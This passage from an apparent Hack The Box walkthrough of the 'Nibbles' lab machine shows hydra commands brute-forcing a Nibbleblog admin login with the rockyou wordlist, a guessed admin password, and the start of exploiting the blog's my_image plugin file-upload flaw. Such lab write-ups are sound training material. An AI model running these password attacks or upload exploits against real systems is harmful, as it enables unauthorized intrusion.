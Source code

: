 
- Bruteforce:


```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.96.84 http-post-form "/nibbleblog/admin.php:username=admin&password=^PASS^:Incorrect username or password."
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.96.84 http-post-form "/nibbleblog/admin.php:username=admin&password=^PASS^:Incorrect"
```

After some time, we get blocked, so I end up trying some manual combinations until I found this (kinda guessy):

**admin:nibbles**


Once inside, we can exploit the Arbitrary File Upload vulnerability in my_image plugin, more info about the vuln [here](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html):

- Go to plugins > my image > configure:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/nibbles/2_1_my_images.png" width="90%"/>
</p>
